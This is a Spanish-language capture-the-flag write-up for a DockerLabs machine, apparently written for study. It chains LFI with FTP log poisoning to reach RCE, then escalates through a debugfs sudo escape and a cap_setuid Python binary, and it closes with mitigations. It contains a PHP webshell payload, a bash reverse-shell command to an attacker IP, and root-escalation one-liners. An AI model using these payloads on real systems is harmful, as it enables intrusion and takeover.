



- **Plataforma:** DockerLabs  
- **Dificultad:** Fácil
- **SOG / Categoría:** [Web / Privilege Escalation / Misconfiguration]  
- **Fecha:** 2026-08-24 
  
---  
  
## 1. Resumen Ejecutivo  
Máquina de dificultad fácil explotada mediante Inclusión de Archivos Locales (LFI) en el parámetro `studio`, combinada con _FTP Log Poisoning_ sobre `/var/log/vsftpd.log` para obtener Ejecución Remota de Comandos (RCE) como `www-data`. La escalada lateral al usuario `hannah` se realiza invocando una shell interactiva desde `debugfs` vía `sudo`, y la escalada final a `root` mediante el abuso de la capacidad `cap_setuid=ep` en el ejecutable personalizado `/opt/priv-python`.
  
---  
  
## 2. Reconocimiento (Reconnaissance)  
  
### Escaneo de Puertos (Nmap)  
```bash  
nmap -p- --open -sS --min-rate 5000 -n -Pn 172.17.0.2 -oN nmap_initial  
nmap -sCV -p21,80 172.17.0.2 -oN nmap_services
```  


**Puertos abiertos detectados:**  
- `80/tcp` - HTTP (Apache httpd 2.4.68)  
- `21/tcp` - ftp (vsftpd 3.0.5)  
  
### Enumeración Web  
Descubrimiento de rutas mediante `gobuster` / `ffuf`:  
```bash  
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 40
```  


- `/pages/` (Status: 301) - Directorio con recursos como `about.php`, `contact.php`, `home.php` y `menu.php`.

---

Fuzzing de parámetros en `index.php` con `ffuf`:
```bash
ffuf -u "http://172.17.0.2/index.php?FUZZ=pages/about.php" -w /usr/share/wordlists/dirb/common.txt -fs 963
```

- **Parámetro identificado:** `studio` (devuelve respuesta filtrando el tamaño por defecto de 963 bytes).

#### Confirmación de LFI (Local File Inclusion)
Tras descubrir el parámetro `studio`, se probó si permitía Path Traversal para leer archivos del sistema:

```bash
curl -s "http://172.17.0.2/index.php?studio=../../../../etc/passwd"
```

La respuesta devolvió el contenido de `/etc/passwd`, confirmando la vulnerabilidad LFI. Para convertir esta vulnerabilidad de lectura en ejecución remota de comandos (**RCE**), se procedió a identificar archivos de registro (_logs_) del sistema que fuesen legibles por el usuario web `www-data` para realizar **Log Poisoning**.

---  
  
## 3. Explotación (Initial Access)  
  
### Vulnerabilidad Identificada  
 - Local File Inclusion (LFI) a Remote Code Execution (RCE) vía FTP Log Poisoning.
 - El parámetro `studio` procesa archivos mediante `include($_GET['studio'])` sin sanitización. Al comprobar la configuración de FTP, se identificó que el registro `/var/log/vsftpd.log` contaba con permisos de lectura para `www-data`, lo que permite inyectar código PHP en el registro de autenticación e interpretarlo a través del LFI.
### Ejecución del Exploit

1. **FTP Log Poisoning:** Se envió un payload PHP dentro del campo de usuario en un intento de inicio de sesión FTP fallido. El servicio `vsftpd` registró el nombre de usuario fallido en `/var/log/vsftpd.log`, almacenando el código PHP en el disco:
```Plaintext
ftp 172.17.0.2
Name (172.17.0.2:anonymous): <?php system($_GET['cmd']); ?>
Password: 123
```

2. Confirmación de RCE: Se incluyó el archivo de logs utilizando el LFI y pasando el comando id en el parámetro cmd: 

```Bash
curl -s "http://172.17.0.2/index.php?studio=../../../../var/log/vsftpd.log&cmd=id"
```

**Resultado:** `uid=33(www-data) gid=33(www-data) groups=33(www-data)`

 3.  **Obtención de Reverse Shell:**

- Listener en la máquina atacante:
```Bash
    nc -nlvp 4444
```

- Ejecución de la payload URL-encoded:

```Bash
curl -s "http://172.17.0.2/index.php?studio=../../../../var/log/vsftpd.log&cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/172.17.0.1/4444%200%3E%261%27"
```

## 4. Escalada de Privilegios (Privilege Escalation)  
  
### Enumeración Interna  
Se revisaron las configuraciones del sistema local.

#### Fase 1: Escalada Lateral (`www-data` -> `hannah`)

Comprobación de comandos `sudo` permitidos:

```bash
sudo -l
```

- **Resultado:** `(hannah) NOPASSWD: /sbin/debugfs -w /opt/hannah_disk.img`

**Explotación:**

```bash
sudo -u hannah /sbin/debugfs -w /opt/hannah_disk.img
debugfs: !/bin/bash
whoami # hannah
```

#### Fase 2: Escalada Vertical (`hannah` -> `root`)

Búsqueda de Linux Capabilities asignadas a ejecutables:

```bash
getcap -r / 2>/dev/null
```

- **Capability identificada:** `/opt/priv-python cap_setuid=ep`

### Obtención de Root

Aprovechando la capacidad `cap_setuid=ep` en `/opt/priv-python`, se forzó el cambio de UID del proceso al superusuario (`0`):

```bash
/opt/priv-python -c 'import os; os.setuid(0); os.system("/bin/bash")'
whoami # root
```

---  
  
## 5. Conclusión y Mitigación  
- **Fallo principal:**
    1. Uso de funciones de inclusión de archivos (`include()`) sin sanitización ni listas blancas de acceso.
    2. Permisos de lectura públicos sobre el archivo de registros del servicio FTP (`/var/log/vsftpd.log`).
    3. Reglas en `/etc/sudoers` que permiten ejecutar binarios interactivos (`debugfs`) sin contraseña.
    4. Asignación innecesaria de la _capability_ `cap_setuid` a un intérprete de scripts (`/opt/priv-python`).
- **Medidas correctivas:**
    1. **Sanitización LFI:** Validar de forma estricta los parámetros de entrada mediante listas blancas de archivos permitidos antes de procesar la inclusión.
    2. **Permisos de Logs:** Restringir los permisos de lectura del archivo de logs `/var/log/vsftpd.log` (`chmod 640`) para evitar que el usuario del servicio web (`www-data`) acceda a su contenido.
    3. **Principio de menor privilegio:** Eliminar la regla de `sudo` para `debugfs` o restringir el escape a consolas dentro del binario.
    4. **Retirar Capabilities:** Eliminar la capacidad `cap_setuid` del binario Python ejecutando `setcap -r /opt/priv-python`.